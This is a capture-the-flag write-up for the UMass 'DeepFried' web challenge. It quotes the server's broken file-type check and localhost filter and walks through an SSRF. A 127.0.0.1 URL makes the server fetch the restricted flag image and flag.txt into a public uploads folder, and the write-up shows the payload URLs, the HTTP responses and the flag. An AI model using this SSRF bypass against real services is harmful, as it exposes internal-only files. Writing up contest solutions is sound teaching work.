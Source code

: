 # DeepFried [100 points]

### Description
```
Show off your class with this deep fried meme generator!

DeepFried.zip

Author: MrLarryMan#9564

http://deepfried.web.ctf.umasscybersec.org:3000
```

There is a `TheFlag.jpg` in `/restricted_memes`

However it can only be accessed locally

```js
router.all('/restricted_memes/:img', async (req,res, next)=>{
    if(req.ip === '::ffff:127.0.0.1') {
        next();
    } else {
       return res.status(403).send("Unauthorized Request");
    }
})
```

There are 2 ways to upload an image, we can directly upload the file or submit a link to the file, then it will get that image and store it in `/uploads/<random hex>/`

```js
    } else if(url) {
        if(!(path.extname(url) == '.jpg' || '.jpeg')) {
            return res.status(400).send("Invalid file type. Expected \".jpg\" or \".jpeg\"");
        } else if (url.includes('localhost')){
            return res.status(403).send("URL cannot reference localhost.");
        }
```

The link has to end with `.jpg` or `,jpeg` and not having `localhost` in it, we can bypass that with `127.0.0.1`

However this line is having a bug :
```js
        if(!(path.extname(url) == '.jpg' || '.jpeg')) {
```

it is just `'.jpeg'` after `||`, without `path.extname(url) ==`, so it's always true, it will allow all file extension

We can use that to do SSRF to get the flag image in `/restricted_memes/` to `/uploads/`

Submit this as the link :
```
http://127.0.0.1:3000/restricted_memes/TheFlag.jpg
```

Then it will response with a cookie of the location of the image inside `/uploads/`

```
HTTP/1.1 302 Found
X-Powered-By: Express
Set-Cookie: dff906eaec1a4eb3ecd775fb528c20f7/TheFlag.jpg
Location: captionsubmit
Vary: Accept
Content-Type: text/html; charset=utf-8
Content-Length: 70
Date: Sun, 26 Mar 2023 05:38:47 GMT
Connection: close

<p>Found. Redirecting to <a href="captionsubmit">captionsubmit</a></p>
```

Then immediately read it in `/uploads/` before it gets deleted
http://deepfried.web.ctf.umasscybersec.org:3000/uploads/dff906eaec1a4eb3ecd775fb528c20f7/TheFlag.jpg

![](https://i.imgur.com/c0DPruk.png)

This image shows that the actual flag is in flag.txt, so just do this one more time with flag.txt

```
http://127.0.0.1:3000/restricted_memes/flag.txt
```

```
HTTP/1.1 302 Found
X-Powered-By: Express
Set-Cookie: 50b1d77a159b144035fe7fe8df30aa2b/flag.txt
Location: captionsubmit
Vary: Accept
Content-Type: text/html; charset=utf-8
Content-Length: 70
Date: Sun, 26 Mar 2023 05:41:52 GMT
Connection: close

<p>Found. Redirecting to <a href="captionsubmit">captionsubmit</a></p>
```

http://deepfried.web.ctf.umasscybersec.org:3000/uploads/50b1d77a159b144035fe7fe8df30aa2b/flag.txt

```
UMASS{v@Mo$_APr0nTaR_1!i!I!}
```
